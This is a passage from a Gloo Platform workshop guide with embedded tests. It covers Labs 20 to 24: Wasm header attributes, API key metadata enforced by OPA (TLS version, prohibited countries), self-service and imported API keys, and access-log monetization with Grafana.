  url: oci://kind-registry:5000/metadata-headers:0.1
  phase: AUTHN
  pluginConfig:
    attributes:
    - source.address
    - source.port
    - connection.mtls
    - connection.tls_version
EOF
```

This Wasm plugin is going to create new headers for the following attributes and convert them to string:

- source.address
- source.port
- connection.mtls
- connection.tls_version

Let's test it:

```bash
curl -k "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/get"
```

Here is the expected result:

```
{
  "args": {}, 
  "headers": {
    "Accept": "*/*", 
    "Host": "172.18.102.1", 
    "User-Agent": "curl/7.81.0", 
    "X-Attribute-Connection-Mtls": "false", 
    "X-Attribute-Connection-Tls-Version": "TLSv1.3", 
    "X-Attribute-Source-Address": "10.102.0.1:33995", 
    "X-Attribute-Source-Port": "33995", 
    "X-B3-Parentspanid": "470e3748edae7184", 
    "X-B3-Sampled": "0", 
    "X-B3-Spanid": "f74647f6886ff109", 
    "X-B3-Traceid": "6e53524939ef1c68470e3748edae7184", 
    "X-Envoy-Attempt-Count": "1", 
    "X-Envoy-Internal": "true", 
    "X-Forwarded-Client-Cert": "By=spiffe://cluster1/ns/httpbin/sa/in-mesh;Hash=ab8866dec1e59f345480ce67dae56f9da5b0fbec4d530bbfc98507e892fb2087;Subject=\"\";URI=spiffe://cluster1/ns/istio-gateways/sa/istio-ingressgateway-1-17-service-account"
  }, 
  "origin": "10.102.0.1", 
  "url": "https://172.18.102.1/get"
}
```

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("Headers have been added", function() {
  it('The X-Attribute-Connection-Tls-Version header has been added', () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', body: '"X-Attribute-Connection-Tls-Version": "TLSv1.3"' }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone-portal-beta-v2/build/templates/steps/apps/httpbin/web-assembly-attributes/tests/headers-added.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Note that you can then use these new headers in other policies (TransformationPolicies, ...)


## Lab 20 - Validate user information based on API key metadata <a name="lab-20---validate-user-information-based-on-api-key-metadata-"></a>


In this lab, we will explore how to expose information from the API key and use it to authorize requests.

Let's first add more user information to the API key of user1:
```bash
export API_KEY_USER1=apikey1
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: Secret
metadata:
  name: user1
  namespace: bookinfo-frontends
  labels:
    auth: api-key
type: extauth.solo.io/apikey
data:
  api-key: YXBpa2V5MQ==
  user-id: dXNlcjE=
  user-email: dXNlcjFAc29sby5pbw==
  plan: Z29sZA==
  tlsversion: VExTdjEuMw==
EOF
```

We will ask for a minimum TLS version based on user metadata, using OPA to enforce it:
```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ConfigMap
metadata:
  name: opa-policy
  namespace: gloo-mesh-addons
data:
  policy.rego: |
    package test
    default allow = false
    allow {
      input.http_request.headers["x-attribute-connection-tls-version"] >= input.state["X-AppConfig-Tls"]
    }
EOF
```

Let's put it all together in an `ExtAuthPolicy`:
```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: ExtAuthPolicy
metadata:
  name: bookinfo-apiauth
  namespace: bookinfo-frontends
spec:
  applyToRoutes:
  - route:
      labels:
        apikeys: "true"
  config:
    server:
      name: ext-auth-server
      namespace: gloo-mesh-addons
      cluster: cluster1
    glooAuth:
      configs:
        - apiKeyAuth:
            headerName: api-key
            headersFromMetadataEntry:
              X-Solo-Plan:
                name: plan
                required: true
              X-AppConfig-Tls:
                name: tlsversion
                required: true
            k8sSecretApikeyStorage:
              labelSelector:
                auth: api-key
        - opaAuth:
            modules:
            - name: opa-policy
              namespace: gloo-mesh-addons
            query: "data.test.allow == true"
EOF
```

Finally, we will test our setup:

```shell
echo $API_KEY_USER1
curl --tlsv1.2 --tls-max 1.2 -ki -H "api-key: ${API_KEY_USER1}" "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/api/bookinfo/v1"

curl --tlsv1.3 --tls-max 1.3 -ki -H "api-key: ${API_KEY_USER1}" "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/api/bookinfo/v1"
```

You can see that the first request fails, while the second one succeeds.

```http,nocopy
HTTP/2 403 
date: Fri, 07 Jul 2023 07:38:38 GMT
server: istio-envoy

HTTP/2 200 
content-type: application/json
content-length: 395
server: istio-envoy
date: Fri, 07 Jul 2023 07:38:38 GMT
x-envoy-upstream-service-time: 11

[{"id": 0, "title": "The Comedy of Errors", "descriptionHtml": "<a href=\"https://en.wikipedia.org/wiki/The_Comedy_of_Errors\">Wikipedia Summary</a>: The Comedy of Errors is one of <b>William Shakespeare's</b> early plays. It is his shortest and one of his most farcical comedies, with a major part of the humour coming from slapstick and mistaken identity, in addition to puns and word play."}]
```

Optionally, we can also sanitize the headers that are finally sent to the upstream service. Check the custom metadata is present or not in the request:

```shell
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.istio.io/v1alpha3
kind: EnvoyFilter
metadata:
  name: ingressgateway-access-logging
  namespace: istio-system
spec:
  workloadSelector:
    labels:
      istio: ingressgateway
  configPatches:
  - applyTo: NETWORK_FILTER
    match:
      context: GATEWAY
      listener:
        filterChain:
          filter:
            name: "envoy.filters.network.http_connection_manager"
    patch:
      operation: MERGE
      value:
        typed_config:
          "@type": "type.googleapis.com/envoy.extensions.filters.network.http_connection_manager.v3.HttpConnectionManager"
          access_log:
          - name: envoy.access_loggers.file
            typed_config:
              "@type": "type.googleapis.com/envoy.extensions.access_loggers.file.v3.FileAccessLog"
              path: /dev/stdout
              log_format:
                json_format:
                  status: "%RESPONSE_CODE%"
                  requestId: "%REQ(X-REQUEST-ID)%"
                  X-Solo-Plan: "%REQ(X-SOLO-PLAN)%"
                  X-AppConfig-Tls: "%REQ(X-APPCONFIG-TLS)%"
                  X-Downstream-Tls: "%REQ(X-DOWNSTREAM-TLS)%"
EOF
```

```shell
kubectl --context ${CLUSTER1} logs -n istio-gateways -l istio=ingressgateway
```

And then sanitize the headers:
```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: HeaderManipulationPolicy
metadata:
  name: add-tls-header
  namespace: bookinfo-frontends
spec:
  applyToRoutes:
  - route:
      labels:
        apikeys: "true"
  config:
    removeRequestHeaders:
    - X-Attribute-Connection-Mtls
    - X-Attribute-Connection-Tls-Version
    - X-Attribute-Source-Address
    - X-Attribute-Source-Port
    - X-AppConfig-Tls
EOF
```


## Lab 21 - Validate user information with API key metadata and an external service <a name="lab-21---validate-user-information-with-api-key-metadata-and-an-external-service-"></a>


In this lab, we will explore how to expose information from the API key and use it to authorize requests.

Specifically, we'll store a list of prohibited countries in the metadata of the API key, and then enforce that requests must come from a country not on that list the be successfully authorized.

First, identify the two-character ISO 3166-1 code representing the country you're in. We'll use this in the API key's metadata. For example, use `US` for the USA, or `GB` for the United Kingdom. A comprehensive collection of country codes is in [this list](https://en.wikipedia.org/wiki/ISO_3166-1_alpha-2#Officially_assigned_code_elements).

Set your country code in an environment variable (replace `GB` with your own):

```bash
export PROHIBITED_COUNTRY=GB
```

Add this country as a "prohibited country" in the metadata of user1's API key:

```bash
export API_KEY_USER1=apikey1
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: Secret
metadata:
  name: user1
  namespace: bookinfo-frontends
  labels:
    auth: api-key
type: extauth.solo.io/apikey
data:
  api-key: $(echo -n "${API_KEY_USER1}" | base64)
  user-id: dXNlcjE=
  user-email: dXNlcjFAc29sby5pbw==
  plan: Z29sZA==
  prohibitedCountries: $(echo -n "${PROHIBITED_COUNTRY}" | base64)
EOF
```

We'll configure the `ExtAuthPolicy` to do a few things:
 - Add the API key's list of prohibited countries to the request when authenticating the key
 - Add the request's originating country to the request metadata (implemented by an external service)
 - Compare the requestor country with the list of prohibited countries using an OPA rule

The OPA rule will cause authorization to fail if the requestor country is in the list of prohibited countries. We'll create this rule first:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ConfigMap
metadata:
  name: deny-prohibited-countries
  namespace: bookinfo-frontends
data:
  policy.rego: |-
    package test

    import future.keywords.if
    import future.keywords.in

    default allow = false

    allow if not input.state["X-AppConfig-Prohibited-Countries"]

    allow if not input.state["geo-CountryCode"]

    allow if input.state["geo-CountryCode"] == ""

    allow if {
        not input.state["geo-CountryCode"] in split(input.state["X-AppConfig-Prohibited-Countries"], ",")
    }
EOF
```

Let's also create the external service that will perform the country code lookup for requests as they arrive:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: apps/v1
kind: Deployment
metadata:
  name: extauth-grpcservice
  namespace: gloo-mesh-addons
spec:
  selector:
    matchLabels:
      app: grpc-extauth
  replicas: 1
  template:
    metadata:
      labels:
        app: grpc-extauth
    spec:
      containers:
      - name: grpc-extauth
        image: gcr.io/field-engineering-eu/jesus-passthrough-grpc-service:0.2.6
        imagePullPolicy: Always
        ports:
        - containerPort: 9001
---
apiVersion: v1
kind: Service
metadata:
  name: example-grpc-auth-service
  namespace: gloo-mesh-addons
  labels:
      app: grpc-extauth
spec:
  ports:
  - port: 9001
    protocol: TCP
  selector:
      app: grpc-extauth
EOF
```

Then we can apply the `ExtAuthPolicy`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: ExtAuthPolicy
metadata:
  name: bookinfo-apiauth
  namespace: bookinfo-frontends
spec:
  applyToRoutes:
  - route:
      labels:
        apikeys: "true"
  config:
    server:
      name: ext-auth-server
      namespace: gloo-mesh-addons
      cluster: cluster1
    glooAuth:
      configs:
      - apiKeyAuth:
          headerName: api-key
          headersFromMetadataEntry:
            X-AppConfig-Prohibited-Countries:
              name: prohibitedCountries
          k8sSecretApikeyStorage:
            labelSelector:
              auth: api-key
      - passThroughAuth:
          grpc:
            address: example-grpc-auth-service.gloo-mesh-addons.svc.cluster.local:9001
      - opaAuth:
          modules:
          - name: deny-prohibited-countries
            namespace: bookinfo-frontends
          query: "data.test.allow == true"
EOF
```

Let's test that the API key's prohibited country list is enforced. We'll do this by using the Swagger API documentation in the portal to send a test request to the API itself.

In the Portal UI, make sure you're logged in as "user1" and click the "**APIs**" menu item. Select "**BookInfo REST API**", click to switch to the "**Swagger View**", then click "**Authorize**" and enter our API key, `apikey1`.

Now, pick a resource to test. For example, use "**GET /api/bookinfo/v1**" and click "**Try it out**", then "**Execute**". This will send a request through our authorization flow using the API key that we've added metadata to. We should see a server response of `403 Error: Forbidden`, as the authorization server has rejected your request on the basis of the country your requests are coming from.

Let's update the API key so that it blocks requests from a different country. Set the prohibited country to the code of a country you're *not* in:

```bash
export PROHIBITED_COUNTRY=KP #North Korea
```

Now update the API key with this restriction:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: Secret
metadata:
  name: user1
  namespace: bookinfo-frontends
  labels:
    auth: api-key
type: extauth.solo.io/apikey
data:
  api-key: $(echo -n "${API_KEY_USER1}" | base64)
  user-id: dXNlcjE=
  user-email: dXNlcjFAc29sby5pbw==
  plan: Z29sZA==
  prohibitedCountries: $(echo -n "${PROHIBITED_COUNTRY}" | base64)
EOF
```

Finally, repeat the test API call in the Swagger UI. This time you should see code `200` and a successful response.


## Lab 22 - Allow users to create their own API keys <a name="lab-22---allow-users-to-create-their-own-api-keys-"></a>
[](https://youtu.be/fipCEZqijcQ "Video Link")


In the previous steps, we've used Kubernetes secrets to store API keys and we've created them manually.

In this steps, we're going to configure the developer portal to allow the user to create their API keys themselves and to store them on Redis (for better scalability and to support the multicluster use case).

You need to update the `ExtAuthPolicy` (to remove the `k8sSecretApikeyStorage` block): 

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: ExtAuthPolicy
metadata:
  name: bookinfo-apiauth
  namespace: bookinfo-frontends
spec:
  applyToRoutes:
  - route:
      labels:
        apikeys: "true"
  config:
    server:
      name: ext-auth-server
      namespace: gloo-mesh-addons
      cluster: cluster1
    glooAuth:
      configs:
        - apiKeyAuth:
            headerName: api-key
            headersFromMetadataEntry:
              X-Solo-Plan:
                name: usagePlan
                required: true
EOF
```

Then, you can open the drop down menu by clicking on `user1` on the top right corner and select `API Keys`.



As you can see, you have access to the `Gold` plan and can create an API key for it. Click on the `+ADD KEY` button.

Give it a name and click on `GENERATE KEY`.


Copy the key. If you don't do that, you won't be able to see it again. You'll need to create a new one.

You can now use the key to try out the API.

You'll need to use the `Swagger View` and then to click on the `Authorize` button to paste your API key.

Before we continue, let's update the API_KEY_USER1 variable with its current value:
<!--bash
sleep 60
-->
```bash
export HOST_KEYCLOAK=$(echo ${ENDPOINT_KEYCLOAK} | cut -d: -f1)
export PORT_KEYCLOAK=$(echo ${ENDPOINT_KEYCLOAK} | cut -d: -f2)
export KEYCLOAK_URL=http://${ENDPOINT_KEYCLOAK}
KEYCLOAK_CLIENT_ID=$(kubectl --context ${CLUSTER1} -n gloo-mesh-addons get extauthpolicy portal -o jsonpath='{.spec.config.glooAuth.configs[0].oauth2.oidcAuthorizationCode.clientId}')
KEYCLOAK_CLIENT_SECRET=$(kubectl --context ${CLUSTER1} -n gloo-mesh-addons get secret oauth -o jsonpath='{.data.client-secret}' | base64 --decode)
KEYCLOAK_USER1_TOKEN=$(curl -d "client_id=${KEYCLOAK_CLIENT_ID}" -d "client_secret=${KEYCLOAK_CLIENT_SECRET}" -d "scope=openid" -d "username=user1" -d "password=password" -d "grant_type=password" "${KEYCLOAK_URL}/realms/master/protocol/openid-connect/token" | jq -r '.id_token')
export API_KEY_USER1=$(curl -k -s -X POST -H 'Content-Type: application/json' -d '{"usagePlan": "gold", "apiKeyName": "key1"}' -H "id_token: ${KEYCLOAK_USER1_TOKEN}" "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/portal-server/v1/api-keys"  | jq -r '.apiKey')
echo API key: $API_KEY_USER1
```

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("API key creation working properly", function() {
  /*
  let user = 'user1';
  let password = 'password';
  let keycloak_client_id = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n gloo-mesh-addons get extauthpolicy portal -o jsonpath='{.spec.config.glooAuth.configs[0].oauth2.oidcAuthorizationCode.clientId}'").stdout.replaceAll("'", "");
  let keycloak_client_secret_base64 = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n gloo-mesh-addons get secret oauth -o jsonpath='{.data.client-secret}'").stdout.replaceAll("'", "");
  let buff = new Buffer(keycloak_client_secret_base64, 'base64');
  let keycloak_client_secret = buff.toString('ascii');
  let keycloak_user1_token = JSON.parse(chaiExec('curl -d "client_id=' + keycloak_client_id + '" -d "client_secret=' + keycloak_client_secret + '" -d "scope=openid" -d "username=' + user + '" -d "password=' + password + '" -d "grant_type=password" "' + process.env.KEYCLOAK_URL +'/realms/master/protocol/openid-connect/token"').stdout.replaceAll("'", "")).id_token;
  let api_key = JSON.parse(chaiExec('curl -k -s -X POST -H "Content-Type: application/json" -d \'{"usagePlan": "gold", "apiKeyName": "test"}\' -H "id_token: ' + keycloak_user1_token + '" https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1 +'/portal-server/v1/api-keys"').stdout.replaceAll("'", "")).apiKey;
  */
  it("Authentication is working with the generated API key", () => helpersHttp.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/api/bookinfo/v1', headers: [{key: 'api-key', value: process.env.API_KEY_USER1}], retCode: 200 }));
});
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone-portal-beta-v2/build/templates/steps/apps/bookinfo/dev-portal-self-service/tests/api-key.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=150 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


## Lab 23 - Allow users to import API keys from an external system <a name="lab-23---allow-users-to-import-api-keys-from-an-external-system-"></a>


In this lab, we will guide you through the process of creating a Go program to import the keys from another system. We will also show you how to use the additional metadata to add information to the key.

Check the list of apikeys to be imported and the additional metadata we are adding to the user:
```shell
cat data/steps/dev-portal-import-keys/apikeys.txt
cat data/steps/dev-portal-import-keys/additional-metadata.txt
```

Let's put all information into kubernetes secrets and configmaps:

```bash
kubectl --context ${CLUSTER1} -n gloo-mesh-addons create configmap apikey-migration --from-file=data/steps/dev-portal-import-keys/additional-metadata.txt --from-file=data/steps/dev-portal-import-keys/migrate.go --from-file=data/steps/dev-portal-import-keys/go.mod
kubectl --context ${CLUSTER1} -n gloo-mesh-addons create secret generic apikey-migration --from-file=data/steps/dev-portal-import-keys/apikeys.txt
```

Next, we will run a kubernetes job, that will read the apikeys from the file and import them into Gloo Platform:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: batch/v1
kind: Job
metadata:
  name: import-keys
  namespace: gloo-mesh-addons
spec:
  backoffLimit: 0
  template:
    metadata:
      annotations:
        sidecar.istio.io/inject: "false"
    spec:
      restartPolicy: Never
      containers:
        - name: runner
          image: golang:1.19
          env:
            - name: REDIS_ADDR
              value: redis.gloo-mesh-addons:6379
            - name: AUTHCONFIG_ID
              value: gloo-mesh-addons.bookinfo-apiauth-bookinfo-frontends-cluster1-ext-auth-service
            - name: USERNAME
              value: user1@example.com
            - name: ADDITIONAL_METADATA
              valueFrom:
                configMapKeyRef:
                  name: apikey-migration
                  key: additional-metadata.txt
            - name: APIKEY_STORAGE_SECRET_KEY
              valueFrom:
                secretKeyRef:
                  key: key
                  name: portal-storage-secret-key
            - name: REDIS_USERNAME
              valueFrom:
                secretKeyRef:
                  key: username
                  name: portal-redis-credentials
                  optional: true
            - name: REDIS_PASSWORD
              valueFrom:
                secretKeyRef:
                  key: password
                  name: portal-redis-credentials
                  optional: true
          command:
          - /bin/sh
          - -c
          - |
            cp -r /app-cm /app
            cd /app
            go mod tidy
            go run /app/migrate.go
          volumeMounts:
          - name: apikey-migration-cm
            mountPath: /app-cm
          - name: apikey-migration-secret
            mountPath: /run/secrets/apikeys.txt
            readOnly: true
            subPath: apikeys.txt
      volumes:
        - name: apikey-migration-cm
          configMap:
            name: apikey-migration
        - name: apikey-migration-secret
          secret:
            secretName: apikey-migration
            items:
              - key: apikeys.txt
                path: apikeys.txt


EOF
```

Our metadata includes an additional header. It's important to verify that this header is present to ensure the correct processing of the metadata.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: ExtAuthPolicy
metadata:
  name: bookinfo-apiauth
  namespace: bookinfo-frontends
spec:
  applyToRoutes:
  - route:
      labels:
        apikeys: "true"
  config:
    server:
      name: ext-auth-server
      namespace: gloo-mesh-addons
      cluster: cluster1
    glooAuth:
      configs:
        - apiKeyAuth:
            headerName: api-key
            headersFromMetadataEntry:
              X-Solo-Plan:
                name: usagePlan
                required: true
              X-AppConfig-Prohibited-Countries:
                name: prohibitedCountries
                required: true
              X-AppConfig-Tls:
                name: tlsversion
                required: true

EOF
```

Finally, we will test our setup:

```shell
API_KEY_USER1=$(kubectl --context ${CLUSTER1} -n gloo-mesh-addons get secret apikey-migration -o jsonpath='{.data.apikeys\.txt}' | base64 --decode | head -n 1)
echo $API_KEY_USER1
curl -ki -H "api-key: ${API_KEY_USER1}" "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/api/bookinfo/v1"
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("API key creation working properly", function() {
  it("Authentication is working with the generated API key", () => helpersHttp.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/api/bookinfo/v1', headers: [{key: 'api-key', value: 'apikey1'}], retCode: 200 }));
  it("Authentication is NOT working with a fake API key", () => helpersHttp.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/api/bookinfo/v1', headers: [{key: 'api-key', value: 'apikey99'}], retCode: 401 }));
});
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone-portal-beta-v2/build/templates/steps/apps/bookinfo/dev-portal-import-keys/tests/api-key.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


## Lab 24 - Dev portal monetization <a name="lab-24---dev-portal-monetization-"></a>
[](https://youtu.be/VTvQ7YQi2eA "Video Link")


The recommended way to monetize your API is to leverage the usage plans we've defined in the previous labs.

In that case, you don't need to measure how many calls are sent by each user.

But if you requires fine grained monetization, we can deliver this as well.

The `portalMetadata` section of the `RouteTable` we've created previously is used to add some metadata in the access logs.

You can configure the access logs to take advantage of the metadata:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.istio.io/v1alpha3
kind: EnvoyFilter
metadata:
  name: ingressgateway-access-logging
  namespace: istio-system
spec:
  workloadSelector:
    labels:
      istio: ingressgateway
  configPatches:
  - applyTo: NETWORK_FILTER
    match:
      context: GATEWAY
      listener:
        filterChain:
          filter:
            name: "envoy.filters.network.http_connection_manager"
    patch:
      operation: MERGE
      value:
        typed_config:
          "@type": "type.googleapis.com/envoy.extensions.filters.network.http_connection_manager.v3.HttpConnectionManager"
          access_log:
          - name: envoy.access_loggers.file
            typed_config:
              "@type": "type.googleapis.com/envoy.extensions.access_loggers.file.v3.FileAccessLog"
              path: /dev/stdout
              log_format:
                json_format:
                  "timestamp": "%START_TIME%"
                  "server_name": "%REQ(:AUTHORITY)%"
                  "response_duration": "%DURATION%"
                  "request_command": "%REQ(:METHOD)%"
                  "request_uri": "%REQ(X-ENVOY-ORIGINAL-PATH?:PATH)%"
                  "request_protocol": "%PROTOCOL%"
                  "status_code": "%RESPONSE_CODE%"
                  "client_address": "%DOWNSTREAM_REMOTE_ADDRESS_WITHOUT_PORT%"
                  "x_forwarded_for": "%REQ(X-FORWARDED-FOR)%"
                  "bytes_sent": "%BYTES_SENT%"
                  "bytes_received": "%BYTES_RECEIVED%"
                  "user_agent": "%REQ(USER-AGENT)%"
                  "downstream_local_address": "%DOWNSTREAM_LOCAL_ADDRESS%"
                  "requested_server_name": "%REQUESTED_SERVER_NAME%"
                  "request_id": "%REQ(X-REQUEST-ID)%"
                  "response_flags": "%RESPONSE_FLAGS%"
                  "route_name": "%ROUTE_NAME%"
                  "upstream_cluster": "%UPSTREAM_CLUSTER%"
                  "upstream_host": "%UPSTREAM_HOST%"
                  "upstream_local_address": "%UPSTREAM_LOCAL_ADDRESS%"
                  "upstream_service_time": "%REQ(x-envoy-upstream-service-time)%"
                  "upstream_transport_failure_reason": "%UPSTREAM_TRANSPORT_FAILURE_REASON%"
                  "correlation_id": "%REQ(X-CORRELATION-ID)%"
                  "user_id": "%DYNAMIC_METADATA(envoy.filters.http.ext_authz:userId)%"
                  "api_id": "%DYNAMIC_METADATA(io.solo.gloo.apimanagement:api_id)%"
                  "api_product_id": "%DYNAMIC_METADATA(io.solo.gloo.apimanagement:api_product_id)%"
                  "api_product_name": "%DYNAMIC_METADATA(io.solo.gloo.apimanagement:api_product_name)%"
                  "usage_plan": "%DYNAMIC_METADATA(envoy.filters.http.ext_authz:usagePlan)%"
                  "custom_metadata": "%DYNAMIC_METADATA(io.solo.gloo.apimanagement:custom_metadata)%"
EOF
```

Note that you can also configure the access logs when deploying Istio with the `IstioLifecycleManager` object.

After that, you can send an API call:

```bash
curl -k -H "api-key: ${API_KEY_USER1}" "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/api/bookinfo/v1"
```

Now, let's check the logs of the Istio Ingress Gateway:

```shell
kubectl --context ${CLUSTER1} -n istio-gateways logs -l istio=ingressgateway --tail 1 | jq .
```

You should get an output similar to this:

```json,nocopy
{
  "timestamp": "2023-08-03T07:39:25.540Z",
  "user_agent": "curl/7.81.0",
  "downstream_local_address": "10.101.0.16:8443",
  "requested_server_name": null,
  "route_name": "unnamed-0-productpage-api-v1.bookinfo-frontends.cluster1--main.istio-gateways.cluster1",
  "request_protocol": "HTTP/2",
  "status_code": 200,
  "upstream_local_address": "10.101.0.16:58536",
  "request_command": "GET",
  "client_address": "10.101.0.1",
  "response_duration": 5,
  "upstream_cluster": "outbound|9080||productpage.bookinfo-frontends.svc.cluster.local",
  "correlation_id": null,
  "usage_plan": "gold",
  "request_uri": "/api/bookinfo/v1",
  "server_name": "172.18.101.4",
  "api_product_id": "bookinfo",
  "api_product_name": "BookInfo REST API",
  "custom_metadata": "{\"lifecyclePhase\":\"General Availability\"}",
  "bytes_received": 0,
  "response_flags": "-",
  "api_id": "bookinfo-v1",
  "x_forwarded_for": "10.101.0.1",
  "user_id": "user1@example.com",
  "upstream_service_time": null,
  "upstream_host": "10.101.0.34:9080",
  "bytes_sent": 395,
  "request_id": "5f055530-52f2-46e4-bca2-2be27cb65e95",
  "upstream_transport_failure_reason": null
}
```

You can see several key information you can use for monetization purpose:
- the API name
- the usage plan
- they user identity
- the customer metadata
- and everything about the request (method, path, status)

You can gather and process these access logs on your own, but Gloo Platform can also collect them through its open telemetry pipeline and store them in a [ClickHouse](https://clickhouse.com/) database.

This has already been configured when we deployed the different Gloo Platform components.

To visualize the information we've ingested, we need to deploy Grafana.

```bash
kubectl --context ${MGMT} -n gloo-mesh create cm portal-api-analytics \
--from-file=data/steps/dev-portal-monetization/portal-api-analytics.json

kubectl apply --context ${MGMT} -f- <<EOF
apiVersion: v1
kind: Secret
metadata:
  name: grafana
  namespace: gloo-mesh
data:
  admin-user: YWRtaW4=
  admin-password: cGFzc3dvcmQ=
type: Opaque
EOF

helm repo add grafana https://grafana.github.io/helm-charts
helm repo update
helm upgrade --install grafana \
grafana/grafana \
--kube-context ${MGMT} \
--version 6.58.7 \
--namespace gloo-mesh \
--create-namespace \
--values - <<EOF
admin:
  existingSecret: grafana
service:
  port: 3000
  type: LoadBalancer
plugins:
- grafana-clickhouse-datasource
datasources:
  datasources.yaml:
    apiVersion: 1
    datasources:
    - name: ClickHouse
      type: grafana-clickhouse-datasource
      isDefault: false
      uid: clickhouse-access-logs
      jsonData:
        defaultDatabase: default
        port: 9000
        server: clickhouse.gloo-mesh
        username: default
        tlsSkipVerify: true
      secureJsonData:
        password: password
dashboardProviders:
  dashboardproviders.yaml:
    apiVersion: 1
    providers:
      - name: "clickhouse"
        orgId: 1
        folder: "clickhouse"
        type: file
        disableDeletion: false
        options:
          path: /var/lib/grafana/dashboards/clickhouse
dashboardsConfigMaps:
  clickhouse: portal-api-analytics
defaultDashboardsEnabled: false
grafana.ini:
  auth.anonymous:
    enabled: true
EOF
kubectl --context ${MGMT} -n gloo-mesh rollout status deployment grafana
```

Get the URL to access Grafana the following command:
```
echo "http://$(kubectl --context ${MGMT} -n gloo-mesh get svc grafana -o jsonpath='{.status.loadBalancer.ingress[*].ip}')"
```

Login with the user `admin` and the password `password`.

Open the `API dashboard`.



<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');

describe("Monetization is working", () => {
  it('Response contains all the required monetization fields', () => {
    const response = helpers.getOutputForCommand({ command: "curl -k -H 'api-key: " + process.env.API_KEY_USER1 + "' https://" + process.env.ENDPOINT_HTTPS_GW_CLUSTER1 + "/api/bookinfo/v1" });
    const output = JSON.parse(helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n istio-gateways logs -l istio=ingressgateway --tail 1" }));
    expect(output.usage_plan).to.equals("gold");
    expect(output.api_product_id).to.equals("bookinfo");
    expect(output.user_id).to.equals("user1@example.com");
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone-portal-beta-v2/build/templates/steps/apps/bookinfo/dev-portal-monetization/tests/monetization.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=150 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


